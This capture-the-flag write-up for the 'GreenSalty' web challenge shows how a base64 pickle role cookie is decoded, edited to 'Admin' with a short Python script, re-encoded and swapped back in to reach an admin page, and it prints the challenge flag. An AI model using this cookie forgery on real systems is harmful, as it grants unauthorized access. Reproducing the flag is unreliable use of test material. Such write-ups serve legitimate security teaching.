






# Web/GreenSalty

### Challenge

- Category: Web
- Author: iLoop
- Description: Some like this on their burger.... People are strange, just ask Pondus
- Site: greensalt.io.ept.gg

### Writeup by
- hag
---


## Site

When we go to `greensalt.io.ept.gg` we find a login page.



After registering a new user with `a` as username and password, we can log in.



We look around the site and find the settings page which we can't access.




## Cookies and Session

Taking a look at the cookies in the developer tools we see the folling:



The `Role`-cookie seems interesting. The cookie data looks like `base64` encoded data.

Let's decode it:

```bash
$ echo "gASVOAAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwHRW5kVXNlcpSMBG5hbWWUjAFhlHViLg==" | base64 -d
��8�app�UserType���)��}�(�role��EndUser��name��a�ub.
```

We can see our `role` and `name` in there; `EndUser` and `a`,

This looks like some serialized data. Looking at the `server`-header we find `Werkzeug/2.0.1 Python/3.8.12`. After doing some research on serialization in Python and using the challenge description hint, I think the data has been serialized using `pickle`.

We most likely have an `Insecure Deserialization` vulnerability in this app.


## Python script (`app.py`)

By looking at the serialized data we can see that the username and role is serialized from a type looking something like this:

```python
class UserType(object):
	role = ""
	user = ""
```

Let's create a script and see if we can deserialize the `role`-cookie and modify it.

```python
import pickle
import base64

# UserType type that matches serialized data
class UserType(object):
	role = ""
	user = ""

# Decode base64 data in cookie
cookie_role = "gASVOAAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwHRW5kVXNlcpSMBG5hbWWUjAFhlHViLg=="
b = base64.b64decode(cookie_role)

# Deserialize using pickle
pd = pickle.loads(b)
print(pd)

# Change role to Admin
pd.role = "Admin"

# Re-serialize using pickle
pdd = pickle.dumps(pd)

# Output serialized data and base64 encoded serialized data
print(pdd)
print(base64.b64encode(pdd))
```

Now let's run it.

## Python script output

```bash
$ python3 app.py
<app.UserType object at 0x7ff44107e250>
b'\x80\x04\x956\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x08UserType\x94\x93\x94)\x81\x94}\x94(\x8c\x04role\x94\x8c\x05Admin\x94\x8c\x04name\x94\x8c\x01a\x94ub.'
b'gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4='
<app.UserType object at 0x7ff441197dc0>
b'\x80\x04\x956\x00\x00\x00\x00\x00\x00\x00\x8c\x03app\x94\x8c\x08UserType\x94\x93\x94)\x81\x94}\x94(\x8c\x04role\x94\x8c\x05Admin\x94\x8c\x04name\x94\x8c\x01a\x94ub.'
b'gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4='
```

Let's take the new cookie data; `gASVNgAAAAAAAACMA2FwcJSMCFVzZXJUeXBllJOUKYGUfZQojARyb2xllIwFQWRtaW6UjARuYW1llIwBYZR1Yi4=` and replace the cookie in the developer tools.



Now click `Settings` again. We can see the follwing at `https://greensalt.io.ept.gg/settings.html`:



## Flag

`EPT{Plant1ng_Gr33n_Th1ngs}`
